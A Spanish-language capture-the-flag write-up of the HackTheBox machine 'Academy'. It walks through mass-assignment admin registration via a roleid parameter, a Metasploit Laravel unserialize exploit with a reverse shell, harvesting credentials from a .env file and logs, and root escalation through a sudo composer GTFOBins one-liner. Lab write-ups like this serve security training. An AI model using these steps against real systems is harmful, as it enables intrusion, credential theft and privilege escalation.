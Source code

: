 ```yaml
---
layout      : post
title       : "Academy - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Academy-HackTheBox/Academy.webp
optimized_image : /assets/images/HTB/Academy-HackTheBox/Academy.webp
category    : [ htb ]
tags        : [ Linux ]
description : ⚡En esta ocasión vamos a resolver una máquina Linux de nivel Easy en la que tocaremos un poco de Laravel, logs y escalaremos privilegios a través de un binario⚡
---
```


En esta ocasión vamos a resolver una máquina Linux de nivel Easy en la que tocaremos un poco de Laravel, logs y escalaremos privilegios a través de un binario⚡

![](/assets/images/HTB/Academy-HackTheBox/rating-academy.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

# Reconocimiento de Puertos

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  tcpwrapped
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
3060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq
``` 



El escaneo nmap revela que tenemos un Servidor OpenSSH corriendo en el puerto 22.
También revela que tenemos el puerto 80 abierto en el cual corre un servidor Apache con una web bajo el nombre de "Hack The Box Academy".
Además tenemos el puerto 33060 en el cual corre un servidor MySQL.


# Enumeración Web

Al acceder a la web a través de la ip nos redirige a http://academy.htb, que lo añadiremos al archivo hosts


`` sudo echo "10.10.10.215 academy.htb" >> /etc/hosts ``


Una vez lo añadimos ya podemos acceder a la web.


![](/assets/images/HTB/Academy-HackTheBox/web.png)


Encuentro la opción Register en la que me creo una cuenta, una vez creada me encuentro con el panel en el que se ubican los modulos de HTB Academy, pero anda que pueda aprovechar.

![](/assets/images/HTB/Academy-HackTheBox/web2.png)


Pr lo tanto vuelvo hacia atrás y decido capturar la petición de registro con BurpSuite.

![](/assets/images/HTB/Academy-HackTheBox/burp1.png)


```burp
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://academy.htb/register.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://academy.htb
DNT: 1
Connection: close
Cookie: PHPSESSID=2qamfqs6cs7r1bsu9jktbf3hsu
Upgrade-Insecure-Requests: 1


uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=0
```

Si nos fijamos tenemos el parámetro `roleid`, que está fijado en 0, pero si lo cambiamos podemos ver si ocurre algo


```burp
uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=1
```

Si cambiamos el parámetro, enviamos la respuesta y abrimos la url [http://academy.htb/admin.php](http://academy.htb/admin.php) y nos logueamos con la cuenta que hemos creado y accedemos a la web como admin.

Encontramos cosas interesantes... 🤗

![](/assets/images/HTB/Academy-HackTheBox/web3.png)


``Complete initial set of modules (cry0l1t3 / mrb3n)``  --> Dos posibles usuarios

``Fix issue with dev-staging-01.academy.htb`` --> otro host

> Añadimos el host a al archivo hosts


`` sudo echo "10.10.10.215 dev-staging-01.academy.htb" >> /etc/hosts ``


Accedemos y encontramos un montón de errores.

![](/assets/images/HTB/Academy-HackTheBox/web4.png)


![](/assets/images/HTB/Academy-HackTheBox/web5.png)


Si nos fijamos bien veremos que aparece en mcuhas ocasiones la palabra `laravel`

Buscando exploits para PHP Laravel encuentro esto

``PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)                               | linux/remote/47129.rb``

Abro metasploit y procedo a configurar y lanzar el exploit

![](/assets/images/HTB/Academy-HackTheBox/metasploit.png)


Y lanzamos el exploit

```bash
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4441 
[*] Command shell session 1 opened (10.10.14.5:4441 -> 10.10.10.215:49452) at 2022-09-11 18:35:12 +0200
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

Tras enumerar durante un buen rato, encuentro en la ruta /var/www/html/academy/.env credenciales que podría servirnos para loguearnos a través de ssh.

```bash
www-data@academy:/var/www/html/academy$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Probamos a loguearnos con el usuario cry0l1t3 que encontramos anteriormente en el servidor web.

`ssh cry0l1t3@10.10.10.215`

![](/assets/images/HTB/Academy-HackTheBox/user.png)


Si nos fijamos bien el usuario cry0l1t3 está dentro del grupo adm.


Realizando una breve búsqueda en internet encuentro la siguiente información

![](/assets/images/HTB/Academy-HackTheBox/escaladavertical.png)

Leemos los logs en busca de información y encuentro data en hexadcimal que voy decodeando poco a poco, hasta que encuentro una posible contraseña del usuario mrb3n

![](/assets/images/HTB/Academy-HackTheBox/hexadecimal.png)


```bash
$ su mrb3n 
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ whoami
mrb3n
```

A continuación ya debemos intentar escalar al usuario root, comenzando por la búsqueda de posibles vectores de escalada, entre ellos pruebo con `sudo -l`

![](/assets/images/HTB/Academy-HackTheBox/escaladaroot.png)


Como vemos tenemos el binario composer que podemos ejecutar como root.

Como de costumbre me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/composer/](https://gtfobins.github.io/gtfobins/composer/)

![](/assets/images/HTB/Academy-HackTheBox/gtfobins.png)

EJECUTAMOS LO SIGUIENTE 

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```



